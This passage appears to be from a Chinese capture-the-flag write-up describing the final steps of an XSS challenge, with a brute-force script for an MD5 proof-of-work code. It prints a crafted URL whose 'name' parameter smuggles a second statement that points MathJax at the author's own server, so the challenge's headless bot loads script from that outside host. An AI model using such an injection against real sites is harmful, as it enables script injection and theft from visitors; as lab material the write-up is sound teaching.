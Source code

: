 6.构造如下，

http://47.110.128.101/challenge?name=glzjin%3b%0aMathJax%3d%7b”root”%3a”http%3a%2f%2fxss.zhaoj.in%2fmath”%7d

name那里其实为 

```
glzjin;
MathJax={"root":"http://xss.zhaoj.in/math"}
```

这样就达到我们之前想达到的目的了。

7.把这个链接打过去，就可以看到 XSSBOT 加载了什么资源了。

祖传算号器：

```
import string, hashlib

a = string.digits + string.lowercase + string.uppercase
for i in a:
	for j in a:
		for k in a:
			for m in a:
				s = hashlib.md5(i + j + k + m).hexdigest()[0:5]
				if s == "5e86c":
					print(i + j + k + m)
					exit(0)
```

打

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561296708d03a7066af2eaec8e6a7ea82d8c3ec05-1024x251.png)

看我自己服务器日志，得

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15612966961796139b64cb38ecfc3afe0eba81f1e1-1024x32.png)

说明：这里其实我原本是直接在浏览器上看了看资源加载，没想到正常版的 Chrome 和 XSSBOT 的 headless Chrome 还有所不同，正常版 Chrome 加载的资源和 headless 的不同，错失一血-

8.在服务器上创建一个这个路径的文件，

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15612969169c9a3e477a0fc1c8c8718f4c1c495029-1024x574.png)

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15612969407c22dc46b0165b41112a740703b3326a-1024x162.png)

9.再打一遍。收 XSS。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15612972226af9851edc0d5bbf81fdc5d9ac985b77-1024x293.png)

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561297281e6910989ddfc5c88429e4d26e6f27dac-1024x162.png)

10.Flag 到手~
